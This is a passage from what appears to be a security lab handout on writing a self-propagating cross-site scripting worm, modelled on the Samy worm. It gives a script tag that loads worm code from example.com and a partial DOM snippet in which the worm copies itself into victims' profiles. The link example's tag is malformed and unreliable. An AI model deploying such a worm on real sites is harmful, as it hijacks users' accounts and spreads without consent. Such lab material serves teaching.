 Similar to Task 3, the above code should be placed in the `"About Me"` field of Samy's profile page, and the Text mode should be enabled before entering the above JavaScript code.

## Task 5: Writing a Self-Propagating XSS Worm

To become a real worm, the malicious JavaScript program should be able to propagate itself. Namely, whenever some people view an infected profile, not only will their profiles be modified, the worm will also be propagated to their profiles, further affecting others who view these newly infected profiles. This way, the more people view the infected profiles, the faster the worm can propagate. This is exactly the same mechanism used by the Samy Worm: within just 20 hours of its October 4, 2005 release, over one million users were affected, making Samy one of the fastest spreading viruses of all time. The JavaScript code that can achieve this is called a **self-propagating cross-site scripting worm**. In this task, you need to implement such a worm, which not only modifies the victim's profile and adds the user "Samy" as a friend, but also add a copy of the worm itself to the victim's profile, so the victim is turned into an attacker.

To achieve self-propagation, when the malicious JavaScript modifies the victim's profile, it should copy itself to the victim's profile. There are several approaches to achieve this, and we will discuss two common approaches.

### Link Approach

If the worm is included using the `src` attribute in the `<script>` tag,
writing self-propagating worms is much easier. We have discussed the
`src` attribute in Task 1, and an example is given below. The worm can
simply copy the following `<script>` tag to the victim's profile,
essentially infecting the profile with the same worm.

```html
<script type="text/javascript">
    src="http://www.example.com/xss_worm.js">
</script>
```

### DOM Approach

If the entire JavaScript program (i.e., the worm) is embedded in the infected profile, to propagate the worm to another profile, the worm code can use DOM APIs to retrieve a copy of itself from the web page. An example of using DOM APIs is given below. This code gets a copy of itself, and displays it in an alert window:

```html
<script type="text/javascript" id="worm">
    var headerTag = "<script type=\"text/javascript\" id=\"worm\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";

    // Put all the pieces together, and apply the URI encoding
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

    ...
</script>
```
